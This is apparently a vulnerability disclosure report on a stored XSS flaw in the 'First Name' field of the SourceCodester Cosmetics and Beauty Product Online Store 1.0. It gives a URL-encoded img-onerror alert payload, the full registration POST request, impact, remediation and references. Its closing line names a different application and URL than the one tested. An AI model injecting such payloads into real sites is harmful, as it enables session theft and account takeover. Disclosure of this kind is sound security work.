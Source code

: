 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "First Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in First Name
    Severity: High
    Affected URL: http://localhost/cbpos/classes/Master.php?f=register
    Affected Parameter: First Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "First Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "First Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/classes/Master.php?f=register

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the First name parameter as shown below and send the request to the server.
```bash
firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40
```

 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1ZoSWqudhD-uPAmaU_E04IMSdm7VBI_fu/view?usp=drive_link
Payload:
```
firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40
```
```bash
Request:

POST /cbpos/classes/Master.php?f=register HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 227
Origin: http://localhost
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://localhost/cbpos/
Cookie: PHPSESSID=p74o2f7lqfitvojtejdnshjrau; __insuarance__logged=1; __insuarance__key=7273YL1ZQOZ448QSLS6V
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40
```
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the First name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
